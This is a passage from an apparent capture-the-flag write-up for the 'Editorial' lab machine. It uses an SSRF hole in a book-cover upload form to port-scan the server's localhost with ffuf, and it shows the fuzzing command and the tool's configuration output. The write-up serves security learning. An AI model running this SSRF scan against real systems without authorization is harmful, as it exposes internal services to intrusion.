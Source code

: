 To check whether the HTTP is vulnerable for SSRF, lets see if the web application returns anything by providing the URL `http://127.0.0.1/index.php` but its not returning anything.

<details><summary>Protocols and schemes</summary></details>

### SSRF port scan

Doing more enumeration we found a SSRF vulnerability by conducting a port scan of the system to find running services using FFUF. We let the server scan itself on all 65535 port which returned an open port on 5000.

```bash
# Make wordlist
seg 65535 > numbers.txt
```

From burp open a request and insert the FUZZ placeholder. Then copy it to a file.

<figure><img src="broken-reference" alt=""><figcaption><p>Easy way to FUZZ a post request</p></figcaption></figure>

Running FUFF reveals an open port on port 5000

```bash
$ ffuf -request request -request-proto http -w numbers.txt -fs 61

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: /home/kali/numbers
 :: Header           : Origin: http://editorial.htb
 :: Header           : Referer: http://editorial.htb/upload
 :: Header           : Host: editorial.htb
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Header           : Accept: */*
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------399227191530037445241476813042
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: keep-alive
 :: Header           : Priority: u=0
 :: Data             : -----------------------------399227191530037445241476813042
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------399227191530037445241476813042
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream

-----------------------------399227191530037445241476813042--
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 61
________________________________________________
```
